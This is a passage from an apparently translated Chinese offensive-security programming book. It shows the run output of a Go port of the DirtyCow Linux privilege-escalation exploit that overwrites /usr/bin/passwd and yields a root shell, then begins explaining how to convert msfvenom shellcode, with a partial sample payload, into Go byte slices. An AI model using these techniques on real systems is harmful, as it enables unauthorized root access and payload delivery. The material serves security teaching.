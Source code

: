 *清单 9-14：完整的 Go 移植版* (/[ch-9/dirtycow/main.go/](https://github.com/blackhat-go/bhg/blob/master/ch-9/dirtycow/main.go/))

为了确认代码是否有效，请在你的易受攻击的主机上运行它。没有什么比看到 root shell 更令人满足的了。

```
alice@ubuntu:~$ go run main.go
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..

/usr/bin/passwd is overwritten
Popping root shell
procselfmem done
Don't forget to restore /tmp/bak

root@ubuntu:/home/alice# id
uid=0(root) gid=1000(alice) groups=0(root),4(adm),1000(alice)
```

如你所见，程序成功运行时，它会备份 */usr/bin/passwd* 文件，竞夺文件句柄控制，使用新的预定值覆盖文件位置，并最终产生一个系统 shell。Linux 的 `id` 命令输出确认 `alice` 用户帐户已被提升到 `uid=0`，这表示获得了 root 权限。

### 在 Go 中创建 Shellcode

在上一节中，你使用了有效 ELF 格式的原始 shellcode 来覆盖一个合法文件，替换为你的恶意版本。你如何自己生成这些 shellcode 呢？事实证明，你可以使用你的常规工具集生成 Go 兼容的 shellcode。

我们将通过 `msfvenom` 来展示如何实现这个操作，`msfvenom` 是一个命令行工具，但我们教给你的集成技术并不局限于特定工具。你可以使用几种方法来处理外部二进制数据，无论是 Shellcode 还是其他任何东西，并将其集成到 Go 代码中。请放心，接下来的页面更多地讨论的是常见的数据表示方法，而非某个特定工具的用法。

Metasploit 框架是一个流行的漏洞利用和后渗透工具包，带有 `msfvenom` 工具，该工具可以将 Metasploit 的任何有效负载生成并转换为通过 `-f` 参数指定的多种格式。不幸的是，没有明确的 Go 转换格式。然而，通过一些微调，你可以轻松地将几种格式集成到 Go 代码中。我们将在这里探索五种格式：C、`hex`、`num`、`raw` 和 Base64，同时记住我们的最终目标是创建一个 Go 中的字节切片。

#### C 转换

如果你指定了 C 转换类型，`msfvenom` 会以一种你可以直接放入 C 代码中的格式生成有效负载。这看起来可能是最合乎逻辑的选择，因为我们在本章早些时候已经详细说明了 C 和 Go 之间的许多相似之处。然而，它并不是我们 Go 代码的最佳选择。为了向你展示原因，看看以下 C 格式的示例输出：

```
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
--snip--
"\x64\x00";
```

我们几乎只关心有效负载。为了使其更适合 Go，你需要去掉分号并调整换行符。这意味着你要么需要在所有行的末尾（除了最后一行）显式地添加 `+`，要么完全去掉换行符，生成一个长的连续字符串。对于小型有效负载，这可能是可以接受的，但对于较大的有效负载，这样手动操作会变得很繁琐。你很可能会转向其他 Linux 命令，如 `sed` 和 `tr` 来清理它。

一旦清理了有效负载，你就会得到一个字符串形式的有效负载。要创建一个字节切片，你可以输入类似以下的内容：

```
payload := []byte("\xfc\xe8\x82...").
```
